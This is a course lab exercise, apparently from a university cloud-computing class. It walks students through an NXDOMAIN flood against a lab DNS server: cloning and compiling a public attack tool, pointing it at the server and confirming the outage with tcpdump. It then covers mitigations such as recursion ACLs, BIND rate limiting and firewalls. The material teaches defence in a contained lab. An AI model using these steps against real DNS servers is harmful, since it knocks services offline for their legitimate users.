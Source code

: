 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```bash
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).
For the sake of this task, enable recursion for 192.168.1.2.

Connect to 192.168.1.2.
Clone the following repository and change the working directory:

```bash
$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```bash
$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.1.1");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the host and from the 192.168.1.2 VM):

```bash
$ host scgc.ro 192.168.1.1
Using domain server:
Name: 192.168.1.1
Address: 192.168.1.1#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the host VM, run `tcpdump`:

```bash
$ sudo tcpdump -i br0 udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```bash
$ sudo ./dos_attack
```

While the attack is running, from the host VM, test the DNS server:

```bash
$ host scgc.ro 192.168.1.1
Using domain server:
Name: 192.168.1.1
Address: 192.168.1.1#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```bash
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.1.1.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.1.1.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.1.1.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove 192.168.1.2 from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the attacker network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
